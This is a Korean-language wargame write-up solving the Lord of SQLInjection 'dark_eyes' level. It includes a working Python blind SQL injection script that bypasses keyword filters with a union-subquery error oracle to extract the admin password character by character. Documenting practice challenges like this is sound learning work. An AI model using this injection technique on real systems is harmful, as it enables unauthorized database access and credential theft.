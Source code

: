 ```yaml
---
layout: single
title: "[Lord of SQLInjection] dark_eyes write-up"
date: 2025-05-01 16:23 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## Lord of SQLInjection (dark_eyes)

### 풀이

이번 문제에서는 `col if case when sleep benchmark` 키워드를 추가로 더 필터링 하여 Time based 및 Error based 를 하기 더 어려워졌다. 또한 SQL 에러가 발생하면 exit() 함수를 통해 빈 페이지가 나오는 것1을 알 수 있다. 아래 단락에서는 admin 패스워드를 pw 파라미터에 넣어야 최종적으로 solve가 된다.

![image-20250501162458798](/images/2025-05-01-los-dark-eyes/image-20250501162458798.png)

<br>

저번 문제에서는 (select 1 union select 2)로 2개의 row를 만들어서 오류를 만들었는데, 이를 응용해서 select 1=1은 row가 1개라 정상 쿼리고, select 1=2는 row가 2개여서 exit() 함수가 실행되는 것을 알 수 있다.

![image-20250502011506195](/images/2025-05-01-los-dark-eyes/image-20250502011506195.png)

<br>

익스플로잇 코드는 `select 1 union select 1=1` 에서 `1=1` 부분을 ascii와 substr 함수를 이용해서 참이면 에러가 안나고 strong 태그가 나오므로 Blind SQLi를 이용해서 아래처럼 코드를 짜면 된다.

```python
import requests

url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"
cookie = {"PHPSESSID": "g6ses6vrl4bnskead01if7jtb1"}
password = ""

for i in range(1, 100):
    found = False
    for j in range(32, 127):
        param = {
            "pw": f"' or id='admin' and (select 1 union select ascii(substr(pw,{i},1))={j})-- -"
        }
        r = requests.get(url=url, cookies=cookie, params=param)
        if "<strong>" in r.text:
            found = True
            password += chr(j)
            print(f"패스워드 {i}번째 문자는 {chr(j)}입니다.")
            break
    if not found:
        print("end")
        print(password)
        break
print(password)

```

![image-20250502012734530](/images/2025-05-01-los-dark-eyes/image-20250502012734530.png)